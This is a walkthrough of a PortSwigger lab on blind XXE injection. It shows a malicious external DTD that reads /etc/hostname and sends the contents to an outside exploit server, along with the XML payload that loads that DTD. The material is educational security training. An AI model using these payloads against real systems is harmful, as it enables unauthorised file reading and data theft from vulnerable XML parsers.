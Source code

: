 # Exploiting blind XXE to exfiltrate data using a malicious external DTD | Dec 25, 2022

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-exfiltration), you'll learn: Exploiting blind XXE to exfiltrate data using a malicious external DTD! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, exfiltrate the contents of the `/etc/hostname` file.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/XXE-Injection/XXE-5/images/Pasted%20image%2020221225055641.png)

In previous labs, we found that **there is an XXE injection vulnerability in the "Check stock" feature, which parses XML input.**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/XXE-Injection/XXE-5/images/Pasted%20image%2020221225055722.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/XXE-Injection/XXE-5/images/Pasted%20image%2020221225055739.png)

**Original XML data:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>1</storeId>
</stockCheck>
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/XXE-Injection/XXE-5/images/Pasted%20image%2020221225055849.png)

**Invalid XML data:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>a</productId>
    <storeId>1</storeId>
</stockCheck>
```

As you can see, it doesn't display the response. Hence, this is a blind XXE injection.

To exploit that, we can **host a malicious DTD**(Document Type Definition) to exfiltrate target data.

**Let's use the exploit server to host an external DTD file:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/XXE-Injection/XXE-5/images/Pasted%20image%2020221225060157.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/XXE-Injection/XXE-5/images/Pasted%20image%2020221225060259.png)

**Then, we can build our XXE payload:**
```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'https://exploit-0a9500d303544494c05e3a7101f100d9.exploit-server.net/?data=%file;'>">
%eval;
%exfiltrate;
```

**The above DTD will:**

- Define an XML parameter entity called `file`, which contains the content of `/etc/hostname`
- Define an XML parameter entity called `eval`, which contains another dynamic declaration XML parameter entity called `exfiltrate`. The `exfiltrate` entity will be evaluated by making an HTTP request to our  exploit server containing the value of the `file` entity within the URL query string.
- Then, use the `eval` entity, which uses the dynamic declaration of the `exfiltrate` entity
- Finally, use the `exfiltrate`, which sends data to the exploit server

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/XXE-Injection/XXE-5/images/Pasted%20image%2020221225063029.png)

**Next, we can send an XXE payload, which fetches our external malicious DTD:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY % xxe SYSTEM "https://exploit-0a9500d303544494c05e3a7101f100d9.exploit-server.net/exploit.dtd"> %xxe;]>
<stockCheck>
    <productId>1</productId>
    <storeId>1</storeId>
</stockCheck>
```

**The second line will:**

- Define an an XML parameter entity called `xxe`, which fetches our exploit server's malicious DTD and interpret it inline

**Let's send the above XXE payload!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/XXE-Injection/XXE-5/images/Pasted%20image%2020221225063037.png)

**Exploit server access log:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/XXE-Injection/XXE-5/images/Pasted%20image%2020221225063050.png)

We succesfully extracted the content of `/etc/hostname`!

# What we've learned:

1. Exploiting blind XXE to exfiltrate data using a malicious external DTD